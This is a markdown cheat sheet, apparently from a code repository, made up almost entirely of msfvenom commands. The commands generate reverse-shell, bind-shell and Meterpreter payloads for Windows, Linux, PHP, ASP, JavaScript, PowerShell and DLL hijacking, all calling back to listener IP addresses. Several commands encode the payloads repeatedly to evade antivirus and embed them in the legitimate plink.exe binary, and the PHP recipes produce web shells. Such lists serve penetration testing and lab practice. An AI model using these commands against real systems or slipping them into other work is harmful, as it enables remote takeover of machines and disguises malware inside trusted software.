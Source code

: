 # WINDOWS ENCODED PAYLOADS  PORT 443
**====CHANGE. IP. AS. NEEDED.====**

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe
```

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe
```

## ---===BIND SHELL, ENCODED, ON PORT 1234===---
```sh
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe
```

## Code for encoding:
```sh
msfvenom --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe
```

================================================================================
# LINUX 
#### LINUX/x86/METERPRETER/REVERSE_TCP
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf
```

# NETCAT
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
```
================================================================================

# PHP 
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## PHP/METERPRETER/REVERSE_TCP [PORT 443]
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## PHP/REVERSE_PHP [PORT 443]
```sh
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> 
shell.php
```
================================================================================

# ASP
#### ASP-REVERSE-PAYLOAD [PORT 443]
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
## OR FOR NETCAT [PORT 443]
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp
```
================================================================================
## Client-Side, Unicode Payload - For use with Internet Explorer and IE
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none
```

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
```

================================================================================
## DLL HiJacking - Windows - x64
```sh
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
================================================================================


```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell
```






